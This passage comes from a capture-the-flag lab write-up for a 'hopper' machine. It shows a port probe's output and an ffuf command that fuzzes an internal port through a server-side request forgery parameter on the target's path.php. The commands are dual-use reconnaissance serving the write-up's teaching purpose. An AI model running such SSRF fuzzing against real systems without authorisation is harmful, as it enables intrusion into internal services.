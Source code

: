 {% endhighlight %}

This script also finds the open port:

{% highlight shell %}
┌──(root💀kali)-[/opt/hackmyvm/hopper]
└─# ./probe.py   
-----------------------
port 22

SSH-2.0-OpenSSH_7.9p1 Debian-10+deb10u2
Protocol mismatch.

-----------------------
-----------------------
port 80

<head>
<link href="style.css" rel="stylesheet">
</head>
<div class="img"></div>

-----------------------
-----------------------
port 2222

<!DOCTYPE html>
<html>
<body>

<h1>[+] WARNING</h1>

<p> - Private corporative web server</p>

<p> - If you are non organization personal, leave immediately</p>


</body>
</html> 


-----------------------
{% endhighlight %}

Next, we need to fuzz the port to see what we can find. Normally I use feroxbuster for this sort of thing but it doesn't quite have the control needed, so it's **ffuf** instead.

{% highlight shell %}
┌──(root💀kali)-[/opt/hackmyvm/hopper]
└─# ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.10.54/advanced-search/path.php?path=http://localhost:2222/FUZZ -fc 403 -ac -v -fw 18

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.0-dev'
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.54/advanced-search/path.php?path=http://localhost:2222/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response words: 18,51